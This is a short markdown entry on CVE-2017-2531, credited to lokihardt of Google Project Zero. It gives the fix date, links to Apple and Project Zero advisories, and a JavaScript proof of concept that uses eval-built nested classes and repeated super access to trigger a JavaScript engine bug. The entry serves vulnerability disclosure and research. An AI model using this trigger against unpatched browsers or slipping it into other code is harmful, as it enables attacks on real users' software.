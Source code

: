 # CVE-2017-2531

- Fix: May 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
let args = new Array(0x10000);
args.fill();
args = args.map((_, i) => 'a' + i).join(', ');

let gun = eval(`(function () {
    class A {

    }

    class B extends A {
        constructor(${args}) {
            () => {
                ${args};
                super();
            };

            class C {
                constructor() {
                }

                trigger() {
                    (() => {
                        super.x;
                    })();
                }
            }

            return new C();
        }
    }

    return new B();
})()`);

for (let i = 0; i < 0x10000; i++)
    gun.trigger();
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1173)
